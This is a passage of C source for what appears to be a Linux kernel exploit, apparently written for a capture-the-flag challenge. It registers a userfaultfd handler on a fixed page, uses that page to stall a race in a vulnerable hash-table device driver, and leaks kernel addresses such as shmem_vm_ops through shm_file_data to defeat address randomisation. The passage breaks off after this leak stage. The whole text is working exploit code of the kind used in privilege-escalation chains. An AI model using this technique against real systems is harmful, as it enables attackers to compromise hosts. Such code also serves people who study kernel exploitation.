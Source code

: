 ```exploit.c

  // create userfaultfd file descriptor
  uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // there is no wrapper in libc
  if(uffd == -1)
    errExit("userfaultfd");

  // enable uffd object via ioctl(UFFDIO_API)
  uffdio_api.api = UFFD_API;
  uffdio_api.features = 0;
  if(ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
    errExit("ioctl-UFFDIO_API");

  // mmap
  puts("[+] mmapping...");
  uffdaddr = mmap((void*)FAULT_ADDR, PAGE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0); // set MAP_FIXED for memory to be mmaped on exactly specified addr.
  printf("[+] mmapped @ %p\n", uffdaddr);
  if(uffdaddr == MAP_FAILED)
    errExit("mmap");

  // specify memory region handled by userfaultfd via ioctl(UFFDIO_REGISTER)
  uffdio_register.range.start = (ulong)uffdaddr;
  uffdio_register.range.len = PAGE;
  uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
  if(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
    errExit("ioctl-UFFDIO_REGISTER");

  s = pthread_create(&uffdthr, NULL, fault_handler_thread, (void*)uffd);
  if(s!=0){
    errno = s;
    errExit("pthread_create");
  }

  puts("[+] registered userfaultfd");
  return uffdthr;
}
// (END userfaultfd-utils)

/******** MAIN ******************/

int main(int argc, char *argv[]) {
  char buf[0x200];
  faultsrc = mmap(0, PAGE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  memset(buf, 0, 0x200);
  hashfd = open(DEV_PATH, O_RDONLY);
  assert(hashfd > 0);

  // race-1: leak via shm_file_data
  for(int ix=0; ix!=threshold; ++ix){
    add_key(hashfd, ix, 0x20, buf);
  }
  register_userfaultfd_and_halt();
  add_key(hashfd, threshold, 0x20, uffdaddr);
  limit <<= 2;
  threshold = limit * 3 / 4;
  pthread_join(uffdthr, 0);

  // leak kernbase
  get_value(hashfd, targetkey, 0x20, buf);
  printf("[!] %lx\n", ((ulong*)buf)[0]);
  printf("[!] %lx\n", ((ulong*)buf)[1]);
  printf("[!] %lx\n", ((ulong*)buf)[2]);
  printf("[!] %lx: shmem_vm_ops\n", ((ulong*)buf)[3]);
```